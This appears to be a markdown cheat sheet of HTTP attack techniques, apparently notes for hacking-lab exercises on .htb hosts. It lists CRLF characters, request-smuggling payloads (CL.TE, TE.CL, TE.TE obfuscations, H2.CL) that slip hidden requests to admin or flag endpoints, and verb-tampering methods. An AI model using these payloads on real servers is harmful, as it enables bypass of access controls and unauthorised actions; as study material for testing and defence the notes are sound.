 # HTTP Attacks

## CRLF Injection
|Description|Character|ASCII (Decimal)|ASCII (Hex)|URL Encoded|
|---|---|---|---|---|
|Carriage Return| `\r` | `13` | `0x0D` | `%0D`|
|Line Feed| `\n` | `10` | `0x0A` | `%0A`|


## Request Smuggling
#### Content-Length
- request body length specified in the `Content-Length` header
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

param1=HelloWorld&param2=Test
```

#### Chunked Encoding
- `Transfer-Encoding` header set to `chunked` to specify chunked encoding
- Each chunk contains the chunk length in hex followed by a newline and the chunk data
- Request terminated with empty chunk `0`
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
param1=HelloWorld&param2=Test
0


```

## CL.TE Vulnerability
- reverse proxy uses the `Content-Length` header, web server uses the `Transfer-Encoding` header
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

## TE.CL Vulnerability
- reverse proxy uses the `Transfer-Encoding` header, web server uses the `Content-Length` header
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0


```

## TE.TE Vulnerability
- obfuscate `Transfer-Encoding` header from one of the systems to provoke a CL.TE or TE.CL vulnerability

|Description|Header|
|---|---|
|Substring match|`Transfer-Encoding: testchunked`|
|Space in Header name| `Transfer-Encoding : chunked`|
|Horizontal Tab Separator| `Transfer-Encoding:[\x09]chunked`|
|Vertical Tab Separator|`Transfer-Encoding:[\x0b]chunked`|
|Leading space|` Transfer-Encoding: chunked`|

## HTTP/2 Downgrading
- HTTP/2 is a binary protocol
- HTTP/2 uses pseudo-headers:
	- `:method`: the HTTP method
	- `:scheme`: the protocol scheme (typically `http` or `https`)
	- `:authority`: similar to the HTTP `Host` header
	- `:path`: the requested path including the query string
- HTTP/2 downgrading occurs when the reverse proxy rewrites an HTTP/2 request from the client to an HTTP/1.1 request which is forwarded to the web server

## H2.CL vulnerability
- Injection of a `Content-Length` header which is used by the web server after the request was rewritten by the reverse proxy
```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 
```

## HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |
